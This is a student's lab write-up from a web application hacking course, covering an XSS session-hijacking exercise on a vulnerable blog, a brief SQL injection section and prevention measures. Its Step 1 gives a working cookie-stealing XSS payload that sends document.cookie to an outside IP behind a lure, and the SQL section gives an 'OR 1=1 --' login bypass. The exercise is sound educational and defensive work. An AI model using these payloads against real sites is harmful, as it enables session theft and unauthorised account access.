

# WAPH-Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

### Name: Sruthi Sridhar Bopparthi
### Email: bopparsr@mail.uc.edu


## Repository Information
### Repository's URL: [https://github.com/SruthiAelay/waph-bopparsr.git](https://github.com/SruthiAelay/waph-bopparsr.git)
### This is a private repository which is used to store all the codes related to course Topics in Computer Systems. The structure of this repository is as mentioned below.

# Hackathon 3 - Session Hijacking Attack

## Lab's overview
This hackathon offers participants a deep dive into the world of cybersecurity through a practical exercise on session hijacking via cross-site scripting (XSS) on a vulnerable blog application. By engaging in roles of both attacker and victim, participants learn to exploit and defend against XSS vulnerabilities. The exercise involves injecting malicious code to steal session cookies and then using these stolen credentials to hijack a session, gaining unauthorized access. This hands-on approach not only highlights the technicalities of conducting an XSS attack but also emphasizes the importance of robust web security measures to protect against such vulnerabilities.

Link to Hackathon3 code : [https://github.com/SruthiAelay/waph-bopparsr/tree/main/Hackathon/Hackathon3]([https://github.com/SruthiAelay/waph-bopparsr/tree/main/Hackathon/Hackathon3])

## Part 1 : Attack

### Step 1 (Attacker)
The attacker's goal is to inject malicious JavaScript code into the blog application’s comments section. This code is designed to steal session cookies from any victim who interacts with the malicious comment, typically by clicking on a link or simply viewing the comment if the site renders the JavaScript automatically.This is done by posting a commment with embedded JavaScript code such as
Code:
```
<a onclick="window.location='http://192.167.9.51/?cookie='+document.cookie"> Click here! </a> To get 10% extra Credit!!! Offer is valid to limited time only!
```


### Step 2 (Victim)
As a victim, logged into the blog with provided credentials, making me a target for the XSS attack. The session is active, and any interaction with the malicious comment could compromise session cookie.



### Step 3 (Victim)
The victim, unaware of the danger, clicks on the malicious link within the comment or views the comment, triggering the embedded JavaScript. The script runs, and the session cookie is sent to the attacker’s server.


### Step 4 (Attacker)

The attacker monitors their server logs for incoming requests that contain stolen cookie information. The attacker reviews the server logs to find the URL requests generated by the malicious script. These requests include the session ID in the query parameters.


### Step 5 (Attacker)

With the stolen session ID, the attacker can hijack the victim’s session. The attacker uses the stolen session cookie by inserting it into their own browser’s cookie store or by using tools designed to automate session hijacking. This tricks the application into believing that the attacker's session is the legitimate session of the victim, granting the attacker access to the application, potentially with administrative privileges.


### Bonus

Input Validation: Check if the application properly validates and sanitizes user inputs. Applications vulnerable to SQL injection often fail to adequately filter user inputs for SQL control characters. If we notice that inputs are directly passed into SQL queries without proper sanitization, it's a strong indication of a potential SQL injection vulnerability.

Error Messages: Deliberately enter malformed SQL through the application's input fields (e.g., in search boxes, login fields, etc.) to observe the responses. Detailed SQL error messages can reveal insights into the database structure and hint at a lack of proper input handling. However, the presence of custom or generic error messages doesn't necessarily mean the application is secure; it just means we can't rely on error messages for testing.

Behavioral Analysis: Submit inputs that modify the intended SQL query logic. For example, appending OR 1=1 -- to a username field in a login form might allow unauthorized access if the application is vulnerable. A successful unauthorized access using such payloads would confirm the SQL injection vulnerability.

Use of Tools and Automated Testing: Employ automated tools designed to test for SQL injection vulnerabilities, such as SQLmap. These tools can help identify vulnerabilities more efficiently than manual testing alone. However, permission is crucial before using such tools on any live system.

Reasoning for Vulnerability Presence-
Dynamic SQL Queries: If the application constructs SQL queries dynamically using string concatenation with user-supplied inputs, it's prone to SQL injection unless proper safeguards are in place.

Lack of Prepared Statements and Parameterized Queries: The absence of prepared statements or parameterized queries in the application's code is a strong indicator of potential SQL injection vulnerabilities. These techniques are critical in preventing SQL injection as they separate SQL logic from data.

Inadequate Use of ORM Tools: Properly configured Object Relational Mapping (ORM) tools can reduce the risk of SQL injection. If the application does not use ORMs or misconfigures them, it might be more susceptible to injection attacks.

Insufficient Testing and Security Practices: An application that has shown vulnerabilities (like the session hijacking vulnerability exploited earlier) might indicate a broader lack of security practices, including insufficient testing for SQL injection vulnerabilities.

Link to Video:
[Step 4 and 5 Demo](https://mailuc-my.sharepoint.com/:v:/g/personal/bopparsr_mail_uc_edu/Ea53-ZwFLtpBkTIiA7yFKR8B5C2LFJ97UXaEX6j0yr1foA?e=e8aI2M&nav=eyJyZWZlcnJhbEluZm8iOnsicmVmZXJyYWxBcHAiOiJTdHJlYW1XZWJBcHAiLCJyZWZlcnJhbFZpZXciOiJTaGFyZURpYWxvZy1MaW5rIiwicmVmZXJyYWxBcHBQbGF0Zm9ybSI6IldlYiIsInJlZmVycmFsTW9kZSI6InZpZXcifX0%3D)

## Part II: Understanding and Prevention

### Explain the vulnerabilities exploited in Part I and why the attack was successful.

1) Cross-Site Scripting (XSS) Vulnerability: The primary exploit was through an XSS vulnerability, where the application failed to properly sanitize user inputs in the comments section. This oversight allowed attackers to inject malicious scripts into the web page, which were executed when other users accessed the page, leading to the theft of session cookies.

2) Session Hijacking: With the stolen session cookies, the attacker could hijack users' sessions. This was made possible because the application did not securely handle session management, allowing attackers to impersonate legitimate users by using their session IDs.

3) Lack of HttpOnly Cookie Flag: The application's cookies were not marked with the HttpOnly flag, making them accessible to client-side scripts. This flaw was crucial for the XSS attack to successfully steal session cookies.

4) Insecure Transmission: If the application did not enforce secure transmission protocols like HTTPS, it would have intensified the risk by allowing session tokens to be intercepted during transmission.

5) Poor Session Management Practices: The overall security of the application was further compromised by poor session management practices, such as not regularly renewing session tokens or not properly securing token storage and transmission.

### As a developer, propose protection mechanisms that could prevent such attacks, referring to both individual and team project guidelines from the course.

1) Verification and Cleaning of Input:

- Vigilantly verify and sanitize user-generated content, such as comments, to strip out potentially malicious code. Employ input validation techniques to ensure submissions match the expected format and are devoid of executable code.
- Utilize HTML cleansing tools to neutralize or eliminate HTML and JavaScript tags, converting them into harmless HTML entities. This step is pivotal in mitigating XSS vulnerabilities by preventing attackers from embedding harmful scripts.

2) Secure Transmission and Session Handling:

- Implement SSL/TLS certificates to ensure the website operates over HTTPS, encrypting data in transit and thwarting session hijacking through eavesdropping.
- Enforce HTTPOnly cookie attributes, making session cookies inaccessible to client-side scripts, thereby mitigating the risk of session token theft via XSS.
- Use session_destroy() to eliminate session tokens upon logout or after a timeout, preventing session tokens from being reused across different browsers or sessions.

3) Content Security Policy (CSP):

- Deploy a stringent CSP to define allowable content sources and restrict inline script execution, significantly reducing XSS risks.
- Configure CSP directives like script-src, style-src, and connect-src to limit the origins from which scripts, stylesheets, and other resources can be loaded.
- Activate the Secure flag on cookies to ensure they are sent only over secure HTTPS connections, and employ the HTTPOnly flag to shield them from script access.

4) Session Management Enhancements:

- Adopt session rotation and enforce session timeouts to prevent session fixation and hijacking. Regularly regenerate session IDs, especially after login, to complicate attacks.
- Opt for server-side session data storage and consistently validate session tokens to fend off fixation and hijacking attempts.

5) Automated Security Testing:

- Integrate automated security testing tools within the development lifecycle to identify and rectify vulnerabilities early on. Tools such as code analyzers and dynamic application security testing (DAST) scanners can pinpoint XSS, SQL injection, and other security flaws.
- Regularly update these tools and stay informed about new vulnerabilities and attack techniques to ensure comprehensive coverage.
